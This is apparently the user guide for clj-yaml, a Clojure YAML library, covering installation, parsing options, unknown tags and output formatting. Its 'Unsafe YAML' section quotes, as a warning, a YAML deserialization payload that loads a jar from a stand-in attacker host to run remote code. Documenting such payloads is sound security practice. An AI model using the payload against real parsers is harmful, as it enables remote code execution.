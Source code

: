 = User Guide
:toclevels: 5
:toc:
// DO NOT EDIT: the lib-version parameter is automatically updated by bb publish
:lib-version: 1.0.26

== Audience
You want to learn more about how to use the clj-yaml library from your app, library or script.

== Introduction

Clj-yaml is a Clojure wrapper over https://bitbucket.org/snakeyaml/snakeyaml/src/master/[SnakeYAML].

=== History

- Feb 2010 - https://github.com/lancepantz/clj-yaml[lancepantz/clj-yaml] is created
- Dec 2013 - https://github.com/CircleCI-Archived/clj-yaml[circleci/clj-yaml] picks up the torch
- Jan 2019 - clj-commons adopts clj-yaml where it can get the ongoing love and care that it needs

== Installation

=== Babashka

No installation required.
Clj-yaml is built into babashka.

=== Leiningen/Boot

[source,clojure,subs="attributes+"]
----
[clj-commons/clj-yaml "{lib-version}"]
----

=== Clojure CLI/`deps.edn`

[source,clojure,subs="attributes+"]
----
clj-commons/clj-yaml {:mvn/version "{lib-version}"}
----

=== As Git Dependency

To get the latest changes that are not yet released to Clojars, you can use this library as a git dependency:

[source,clojure]
----
$ cat deps.edn
{:deps {clj-commons/clj-yaml {:git/url "https://github.com/clj-commons/clj-yaml"
                              :git/sha "05eaca35c34c092ffdd2e620ef07962ce147a88b"}}}

$ clj -X:deps prep
$ clj -M -e "(require '[clj-yaml.core :as yaml])"
----

Replace the `:git/sha` value as appropriate.

== Usage

=== Internal vs Public API

When the clj-commons/clj-yaml team adopted clj-yaml it made some assumptions about the clj-yaml public API.
It turns out folks are using more of clj-yaml than we originally expected.

We encourage you to stick to the higher level functions as documented in the `clj-yaml.core` namespace.

If you do find yourself needing to use the lower level functions, please let us know.
Perhaps you are doing so to overcome a limitation in clj-yaml that we could address to everyone's benefit.

Note that:

* babashka only exposes the higher level functions.
* this user guide only describes and promotes usage of higher level functions

=== Quick Start

[source,clojure]
----
(require '[clj-yaml.core :as yaml])

(yaml/generate-string
  [{:name "John Smith", :age 33}
   {:name "Mary Smith", :age 27}])
;; => "- {name: John Smith, age: 33}\n- {name: Mary Smith, age: 27}\n"

(yaml/parse-string "
- {name: John Smith, age: 33}
- name: Mary Smith
  age: 27
")
;; => ({:name "John Smith", :age 33}
;;     {:name "Mary Smith", :age 27})
----

=== Parsing YAML

[[key-conv]]
==== Key Conversion

By default, YAML keys are converted to Clojure keywords. To prevent this, include the `:keywords false` option when calling `parse-string` or `parse-stream` functions:

[source,clojure]
----
(yaml/parse-string "
- {name: John Smith}
" :keywords false)
;; => ({"name" "John Smith"})
----

The `:keywords` option defaults to `true` for historical reasons.
When clj-yaml detects a key that cannot be converted to a Clojure keyword, it will leave it unconverted.
Detection and conversion is not sophisticated and can result in keywords that are illegal and unreadable.

For this reason we added the `:key-fn` option.
This allows you to take control and do whatever conversion makes sense for your YAML key inputs.

You can use `:key-fn` to do something similar to `:keywords true`:

[source,clojure]
----
(yaml/parse-string "
- {name: John Smith}
" :key-fn #(-> % :key keyword))
;; => ({:name "John Smith"})
----

Or, something entirely different:

[source,clojure]
----
(require '[clojure.string :as string])

(yaml/parse-string "
- {name: John Smith}
" :key-fn #(-> % :key string/upper-case string/reverse))
;; => ({"EMAN" "John Smith"})
----


==== Unknown tags [[unknown-tags]]
Unknown tags can be handled by passing a handler function via the `:unknown-tag-fn` option.
The handler function is provided a map which includes `:tag` and `:value` keys.
Note that the value passed to the `unknown-tag-fn` is a string if it's a scalar, regardless of the quoting (or lack thereof) of the scalar value.

[source,clojure]
----
;; drop unknown tags
(yaml/parse-string "!Base12 10" :unknown-tag-fn :value
;; => "10"

;; or do some smart convertion
(yaml/parse-string "!Base12 10"
                   :unknown-tag-fn (fn [{:keys [tag value]}]
                                      (if (= "!Base12" tag)
                                          (Integer/parseInt value 12)
                                          value)))
;; => 12
----

==== Unsafe YAML [[unsafe]]
Clj-yaml optionally supports the creation of Java classes.
This is considered unsafe.

IMPORTANT: Be very wary of specifying `:unsafe true` unless you completely trust your YAML inputs.
Consider instead using `:unknown-tag-fn` for fine and deliberate control.

An example of some malicious YAML is https://j0vsec.com/post/cve-2021-25738/[well described by J0VSEC].
Here's the dangerous snippit described:

[source, yaml]
----
some_var: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://attacker-server.tld/poc.jar"]]]]
----

Also security related are `:allow-recursive-keys` and `:max-aliases-for-collections` options.

==== Positional Data [[mark]]
You can ask clj-yaml to return parsed YAML with extra positional data markers via the `:mark true` option.

[source,clojure]
----
(yaml/parse-string "
- name: Mary Smith
  age: 27
" :mark true)
;; => {:start {:line 1, :index 1, :column 0},
;;     :end {:line 3, :index 30, :column 0},
;;     :unmark
;;     ({:start {:line 1, :index 3, :column 2},
;;       :end {:line 3, :index 30, :column 0},
;;       :unmark
;;       {{:start {:line 1, :index 3, :column 2},
;;         :end {:line 1, :index 7, :column 6},
;;         :unmark "name"}
;;        {:start {:line 1, :index 9, :column 8},
;;         :end {:line 1, :index 19, :column 18},
;;         :unmark "Mary Smith"},
;;        {:start {:line 2, :index 22, :column 2},
;;         :end {:line 2, :index 25, :column 5},
;;         :unmark "age"}
;;        {:start {:line 2, :index 27, :column 7},
;;         :end {:line 2, :index 29, :column 9},
;;         :unmark 27}}})}
----

In reality, the `:start` `:end` and `:unmark` maps are internally a record and can be recognized via `marked?` and unwrapped via `unmark`.

=== Generating YAML

==== Dumper Options [[dumper-options]]
Different flow styles (`:auto`, `:block`, `:flow`) allow customization of how YAML is rendered.

To demonstrate let's setup `some-data` to play with.

[source,clojure]
----
(def some-yaml "
todo:
  - name: Fix issue
    responsible:
      name: Rita
")

(def some-data (yaml/parse-string some-yaml))
----

To select the `:block` flow style:
[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:flow-style :block})
----

results in a string of YAML, that when printed:
[source,yaml]
----
todo:
- name: Fix issue
  responsible:
    name: Rita
----

The same but with the `:flow` style results in:
[source,yaml]
----
{todo: [{name: Fix issue, responsible: {name: Rita}}]}
----

And finally the `:auto` style (the default) renders:
[source,yaml]
----
todo:
- name: Fix issue
  responsible: {name: Rita}
----

Use the `:indent` and `:indicator-indent` options to adjust indentation:

[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:indent 6
                                                 :indicator-indent 3
                                                 :flow-style :block})
----

results in:
[source,yaml]
----
todo:
   -  name: Fix issue
      responsible:
            name: Rita
----

`:indent` must always be larger than `:indicator-indent`.
If it is only 1 higher, the indicator will be on a separate line:

[source,clojure]
----
(yaml/generate-string some-data :dumper-options {:indent 2
                                                 :indicator-indent 1
                                                 :flow-style :block})
----
results in:
[source,yaml]
----
todo:
 -
  name: Fix issue
  responsible:
    name: Rita
----

[[keyword-args]]
=== Function Options as Keyword Args

You'll notice that clj-yaml functions use keyword args for options.

Clojure 1.11 allows these types of functions to instead be called with a map for the options:

[source,clojure]
----
;; old school
(yaml/parse-string "ok: 42" :keywords false)
;; => {"ok" 42}

;; clojure 1.11 also allows:
(yaml/parse-string "ok: 42" {:keywords false})
;; => {"ok" 42}
----

TIP: If you are using a version of Clojure before v1.11, or you want to stay compatible with older versions of Clojure, you'll need to call these functions the old school way.
